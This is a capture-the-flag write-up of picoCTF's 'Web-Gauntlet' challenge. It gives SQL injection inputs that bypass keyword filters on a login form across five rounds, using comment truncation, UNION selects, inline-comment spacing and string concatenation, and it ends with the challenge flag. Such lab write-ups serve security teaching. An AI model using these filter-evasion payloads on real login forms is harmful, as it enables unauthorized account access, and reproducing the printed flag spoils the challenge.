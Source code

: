 # Web-Gauntlet
## Category
Web Exploitation
## Problem Description
Can you beat the filters? Log in as admin http://jupiter.challenges.picoctf.org:41560/ http://jupiter.challenges.picoctf.org:41560/filter.php
## Approach
The login form is meant to be bypassed using SQL injection.
### Round 1 - filter: or

Use basic injection and comment out the rest of the line.

input: ``` admin'-- ```

``` SELECT * FROM users WHERE username='admin'--' AND password='abc' ```

### Round 2 - filter: or and like = –

Without --, check for other ways to comment. We can also use UNION to get our specific user.

input: ``` admin'/* ```

``` SELECT * FROM users WHERE username='admin'/*' AND password='def' ```

input: ``` ' union select * from users where username in("admin")/* ```

``` SELECT * FROM users WHERE username='' union select * from users where username in("admin")/* AND password='def' ```

### Round 3 - filter: or and = like > < –

The first injection from the previous round still works here, but let’s try to get the second to work too. Spaces are now blocked, but we can use /**/ comments for the same effect. I tried %20 to replace all the spaces, but it was not effective.

input: ``` admin'/* ```

``` SELECT * FROM users WHERE username='admin'/*' AND password='ghi' ```

input: ``` '/**/union/**/select*from/**/users/**/where/**/username/**/in("admin")/* ```

``` SELECT * FROM users WHERE username=''/**/union/**/select*from/**/users/**/where/**/username/**/in("admin")/*' AND password='ghi' ```

### Round 4 - filter: or and = like > < – admin

In SQLITE, || is a concatenation operator. The simple solution is to simply split up “admin” in a way to bypass the filter. A more complicated solution could include encoding encode “admin” in ASCII number code and using the SQL CHAR() function to decode it.

input: ``` adm'||'in'/* ```

``` SELECT * FROM users WHERE username='adm'||'in'/* AND password='jkl' ```

input: ``` '/**/union/**/select*from/**/users/**/where/**/username/**/in(char(97,100,109,105,110))/* ```

``` SELECT * FROM users WHERE username=''/**/union/**/select*from/**/users/**/where/**/username/**/in(char(97,100,109,105,110))/*' AND password='jkl' ```

### Round 5 - filter: or and = like > < – union admin

Splitting up “admin” still works as only UNION is additionally blacklisted.

input: ``` adm'||'in'/* ```

``` SELECT * FROM users WHERE username='adm'||'in'/* AND password='mno' ```
## Flag
picoCTF{y0u_m4d3_1t_275cea1159781d5b3ef3f57e70be664a}
